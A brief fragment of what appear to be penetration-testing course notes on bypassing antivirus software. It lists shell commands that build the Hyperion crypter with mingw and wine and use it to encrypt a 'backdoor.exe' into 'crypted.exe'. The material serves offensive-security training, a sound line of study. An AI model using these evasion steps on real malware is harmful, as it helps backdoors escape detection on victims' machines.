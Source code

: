 <span id="_51btodqc88s2" class="anchor"><span id="_Toc480741825" class="anchor"></span></span>Bypassing Antivirus Software 
===========================================================================================================================

-   Crypting Known Malware with Software Protectors

    -   One such open source crypter, called Hyperion  
        cp /usr/share/windows-binaries/Hyperion-1.0.zip  
        unzip Hyperion-1.0.zip  
        cd Hyperion-1.0/  
        i686-w64-mingw32-g++ Src/Crypter/\*.cpp -o hyperion.exe  
        cp -p
        /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libgcc\_s\_sjlj-1.dll
        .  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libstdc++-6.dll
        .  
        wine hyperion.exe ../backdoor.exe ../crypted.exe

-   Using Custom/Uncommon Tools and Payloads<span id="_2nz8rskeai36"
    class="anchor"></span>
